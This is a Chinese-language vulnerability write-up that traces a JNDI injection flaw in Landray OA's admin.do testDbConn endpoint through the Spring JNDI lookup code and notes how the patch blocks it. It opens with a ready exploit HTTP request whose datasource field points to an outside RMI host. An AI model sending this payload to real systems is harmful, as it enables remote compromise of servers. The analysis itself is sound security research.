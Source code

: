 蓝凌oa之前有个漏洞是通过后台的admin.do触发的jndi注入漏洞，根据已有的payload进行一个代码的分析，但是手头的源码是已经修复了这个漏洞的，同时可以看看他是怎么修复的。
```java
POST /admin.do HTTP/1.1
Host: 
Cookie: JSESSIONID=90EA764774514A566C480E9726BB3D3F; Hm_lvt_9838edd365000f753ebfdc508bf832d3=1620456866; Hm_lpvt_9838edd365000f753ebfdc508bf832d3=1620459967
Content-Length: 70
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Origin: https://X.X.X.X
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

method=testDbConn&datasource=rmi://xxx.xxx.xxx.xxx:1099/dnslog
```

admin.do出现在ekp/ekp/WEB-INF/KmssConfig/sys/config/spring-mvc.xml中，说明具体的实现功能在SysConfigAdminAction这个类里面<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1670603035762-2adeea23-7554-4a3d-9aa2-0a3a9dbf9242.png#clientId=u4697ad49-002f-4&from=paste&height=202&id=ub6d258c3&originHeight=204&originWidth=711&originalType=binary&ratio=1&rotation=0&showTitle=false&size=17275&status=done&style=none&taskId=u7230d89c-201f-4029-8398-01ae0c51ec7&title=&width=702.7999877929688)<br />直接把lib里面的所有jar添加到依赖，然后跟进这个类，具体在kmss_core.jar里面<br />home\ekp\ekp\WEB-INF\lib\kmss_core.jar!\com\landray\kmss\sys\config\action\SysConfigAdminAction.class 在testDbConn的方法里面，datasource关联到proerties配置文件中，然后再进入createDataSource的方法里面<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1670603195087-c8a9f1b8-8c11-4291-9741-cec9752d7692.png#clientId=u4697ad49-002f-4&from=paste&height=586&id=u5e672b51&originHeight=732&originWidth=1263&originalType=binary&ratio=1&rotation=0&showTitle=false&size=67356&status=done&style=none&taskId=u128bfe9a-8722-4c46-a0c6-271b196729f&title=&width=1010.4)

具体跟进到createDataSource方法，如果datasource不为空，就进入一个判断语句判断传入的参数是否携带了:和/，如果携带了就无法进入下一步的方法，那么实际上漏洞版本的源码应该是没有这个判断语句的，所以假设不存在该判断条件，我们跟进getDataSource的方法。<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1670603469554-0634fa3b-3032-43b4-8c64-0ff139967b76.png#clientId=u4697ad49-002f-4&from=paste&height=417&id=ua18d7414&originHeight=521&originWidth=1486&originalType=binary&ratio=1&rotation=0&showTitle=false&size=42598&status=done&style=none&taskId=u6e744b55-ae3e-43eb-873b-75853a2838a&title=&width=1188.8)

在getDataSource的方法里面调用了lookup的方法，继续跟进看看具体的实现<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1670603598419-8e005ccf-f10f-485e-8d93-010b2b2bef8b.png#clientId=u4697ad49-002f-4&from=paste&height=147&id=u8149b034&originHeight=184&originWidth=1169&originalType=binary&ratio=1&rotation=0&showTitle=false&size=18637&status=done&style=none&taskId=u561f54c0-8faa-4571-94c9-d61088e4466&title=&width=935.2)

跟进到home\ekp\ekp\WEB-INF\lib\spring-context-3.2.18.RELEASE.jar!\org\springframework\jndi\JndiLocatorSupport.class中的lookup方法，把dataSourceName赋值给convertedName，然后再进入getJndiTemplate().lookup()的方法中<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1670603957333-c3d544dc-1173-448e-88c1-eca1d9de6444.png#clientId=u4697ad49-002f-4&from=paste&height=217&id=u150d52bb&originHeight=271&originWidth=821&originalType=binary&ratio=1&rotation=0&showTitle=false&size=23547&status=done&style=none&taskId=u77cdd815-9b2a-4184-acc4-abeeedc091c&title=&width=656.8)

跳到了这个方法里home\ekp\ekp\WEB-INF\lib\spring-context-3.2.18.RELEASE.jar!\org\springframework\jndi\JndiTemplate.class 引用了this.lookup()<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1670604107765-2ebb80d8-4e93-4536-bd39-c18d060424c1.png#clientId=u4697ad49-002f-4&from=paste&height=170&id=uce3cacc1&originHeight=213&originWidth=1073&originalType=binary&ratio=1&rotation=0&showTitle=false&size=17271&status=done&style=none&taskId=u1d909b4d-b828-4e7e-8978-ed2cddb24e2&title=&width=858.4)

继续对this.lookup()进行跟踪，name最后会被进行ctx.lookup，典型的jndi注入漏洞代码。至此就分析完为什么datasource可以进行jndi注入了。<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1670604205075-531b0a8c-a45e-4e02-8ab1-c686c3b61a8a.png#clientId=u4697ad49-002f-4&from=paste&height=336&id=u3379dfdf&originHeight=420&originWidth=1170&originalType=binary&ratio=1&rotation=0&showTitle=false&size=31576&status=done&style=none&taskId=u1a6e48d6-123b-48c7-b0e9-280abd04daf&title=&width=936)

